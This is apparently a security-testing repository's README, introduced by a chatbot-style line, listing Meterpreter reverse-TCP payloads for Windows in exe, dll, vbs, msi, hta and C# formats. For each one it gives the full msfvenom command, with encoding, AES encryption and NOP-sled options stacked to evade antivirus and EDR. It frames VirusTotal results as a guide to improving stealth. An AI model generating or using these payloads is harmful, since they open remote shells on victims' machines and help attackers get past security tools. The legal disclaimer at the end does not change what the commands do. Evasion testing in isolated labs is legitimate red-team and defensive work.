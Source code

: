 Here is the corrected version of your README.md:

---

# Payloads Generated with Msfvenom

This directory contains payloads generated using the `msfvenom` tool, which is widely utilized for creating and testing malicious payloads in controlled environments. The payloads included here serve as a baseline for analyzing antivirus (AV) and Endpoint Detection and Response (EDR) detection capabilities.

---

## File Details

### `Payload1.exe`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload2.exe`
- **Description**: A reverse TCP payload encoded using Shikata Ga Nai, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai -f exe -o Payload2.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload3.exe`
- **Description**: A reverse TCP payload encrypted using AES256, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> --encrypt aes256 --encrypt-key secret -f exe -o Payload3.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload4.exe`
- **Description**: A reverse TCP payload with multiple evasion techniques (encoding, encryption, and optimization), designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f exe -o Payload4.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload.dll`
- **Description**: A reverse TCP payload in DLL format, suitable for techniques such as DLL Hijacking or Reflective DLL Injection.
- **Architecture**: 64-bit Windows
- **Type**: Dynamic-Link Library (`.dll`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f dll -o Payload.dll
```

---

### `Payload.vbs`
- **Description**: A reverse TCP payload in Visual Basic Script format, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Visual Basic Script (`.vbs`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f vbs -o Payload.vbs
```

---

### `Payload.msi`
- **Description**: A reverse TCP payload in MSI format, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Installer Package (`.msi`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f msi -o Payload.msi
```

---

### `Payload.hta`
- **Description**: A reverse TCP payload in HTA format, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: HTML Application (`.hta`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f hta-psh -o Payload.hta
```

---

### `Payload.cs`
- **Description**: A reverse TCP payload in C# format used in Basic and Avanced Shellcode runners, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: C# Payload (`.cs`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> EXITFUNC=thread -f csharp -o Payload.cs
```

---

## Detection Analysis

The payloads were uploaded to VirusTotal to evaluate detection rates across various antivirus engines. The results serve as a baseline to identify opportunities for improving stealth through encoding, obfuscation, and other evasion techniques.

---

## Legal Notice

- **For Educational and Research Purposes Only**: These payloads are strictly intended for testing in isolated environments, such as virtual machines or lab setups.
- **Prohibited Usage**: Unauthorized use or deployment on live systems or production environments is illegal and against organizational policies.
- **Responsibility Disclaimer**: The creator assumes no liability for misuse of the provided tools or files.
